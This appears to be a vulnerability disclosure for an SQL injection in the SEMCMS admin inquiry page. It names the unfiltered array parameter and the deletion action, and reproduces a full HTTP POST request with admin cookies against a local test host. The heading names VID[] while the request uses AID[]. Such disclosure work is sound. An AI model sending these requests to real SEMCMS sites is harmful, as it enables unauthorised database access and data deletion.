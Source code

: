 #SEMCMS SQLINJECT

---

* Project official：http://www.sem-cms.com
* project address:   http://www.sem-cms.com/xiazai.html

---

## VID[] SQLINJECT

>URL: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
![Alt text](./1.png)
>Debug：Defense module is class.phpmailer.php and function inject_check_sql
![Alt text](./2.png)
>But VID[] didn't handle it

* POST:
```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 127.0.0.1
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close

languageID=&AID%5B%5D=3
```
>verification:
![Alt text](./3.png)